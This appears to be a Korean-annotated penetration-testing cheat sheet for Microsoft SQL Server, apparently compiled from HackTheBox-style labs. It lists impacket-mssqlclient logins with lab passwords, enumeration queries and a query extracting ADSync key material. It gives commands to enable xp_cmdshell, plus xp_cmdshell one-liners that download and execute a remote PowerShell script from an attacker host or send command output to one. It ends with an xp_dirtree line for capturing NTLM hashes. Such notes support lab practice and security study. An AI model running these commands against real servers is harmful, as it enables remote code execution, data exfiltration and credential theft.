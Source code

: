 
### mssql connect
```bash
# windows 계정으로 로그인할 경우
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.145.148 -windows-auth
# DB 계정으로 로그인할 경우
impacket-mssqlclient "streaio.htb/db_admin:B1@hx31234567890"@240.0.0.1

# 로컬에서 접근할 경우
.\sqlcmd.exe -Q "use ADsync; select instance_id,keyset_id,entropy from mms_server_configuration"
```

### db enumeration

```python
enum_db
```

### show tables

```python
SELECT table_name FROM <db_name>.INFORMATION_SCHEMA.TABLES 
```

### db 전환

```python
USE <database_name>;
```

### select tables

```python
SELECT * from <table_name>
```

### db 내 user정의 table(u) 조회

```python
SELECT name,id from <db_name>..sysobjects where xtype='u';
# 한번에 id:name 쌍을 출력해야할 경우
SELECT concat(id,":",name) from <db_name>..sysobjects where xtype='u';
# 여러줄을 | 구분자로 이어붙일 경우
SELECT string_agg(concat(name,':',id),'|') from <db_name>..sysobjects where xtype='u'
```

### db 내 column 이름 조회

```python
# SELECT column name thru table id
SELECT string_agg(name,'|') from <db_name>..syscolumns where id=<id>
```

### Enable xp_cmdshell

```python
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

### xp_cmdshell

```powershell
# RCE thru ps1
exec xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<LHOST>/<FILE>.ps1')" ;

# RCE thru curl
EXEC xp_cmdshell 'powershell -c "$x = whoami; curl <http://my-kali?output=$x>"';
```

### File Read, OOB (NTLM Hash)

```bash
EXEC xp_dirtree 'C:\\inetpub\\wwwroot\\',1,1;
```
